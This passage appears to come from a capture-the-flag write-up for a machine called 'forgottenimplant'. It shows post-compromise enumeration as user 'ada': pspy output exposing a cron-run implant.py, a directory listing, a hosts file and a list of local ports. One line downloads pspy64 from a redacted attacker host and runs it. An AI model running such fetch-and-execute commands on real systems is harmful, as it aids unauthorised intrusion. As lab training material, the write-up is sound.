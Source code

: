 - /usr/sbin/CRON -f<br>
- /bin/sh -c python3 /home/ada/.implant/implant.p<br>
- /python3 /home/ada/.implant/implant.py<br>
- /usr/sbin/CRON -f

</p>

```bash
ada@...:/tmp$ wget http://xx.xxx.x.xxx:8000/pspy64 -O /tmp/pspy64;chmod +x /tmp/pspy64;/tmp/pspy64
```

<img width="1356" height="792" alt="image" src="https://github.com/user-attachments/assets/eabf20cd-5f9b-4c52-9248-39170318dc94" />

<br>

<img width="1360" height="450" alt="image" src="https://github.com/user-attachments/assets/09bb04e1-3954-4ef8-8ce1-2cd647c015a0" />

<br>
<br>
<h4>./implant</h4>

```bash
ada@...:~$ cd .implant/
cd .implant/
ada@...:~/.implant$ ll 
ll
total 28
drwxrwxr-x 2 ada  ada  4096 Sep  8 xx:xx ./
drwxr-xr-x 5 ada  ada  4096 Mar 13  2023 ../
-rw-rw-r-- 1 ada  ada  9872 Sep  8 xx:xx xx.xxx.x.xxx.log
-rw-r--r-- 1 root root   12 Sep  8 xx:xx hosts
-rw-rw-r-- 1 ada  ada  3783 Mar 13  2023 implant.py
```

<h4>hosts</h4>
<p>

- 127.0.0.1 and xx.xxx.x.xx = forgottenimplant</p>

```bash
ada@...:~/.implant$ cat hosts
cat hosts
xx.xxx.x.xx
```

```bash
ada@...:~$ getent hosts
getent hosts
127.0.0.1       localhost
127.0.1.1       forgottenimplant
127.0.0.1       ip6-localhost ip6-loopback
```

<h4>127.0.0.1 80</h4>

<p>

- 22<br>
- 80<br>
- 3306<br>
- 33060</p>
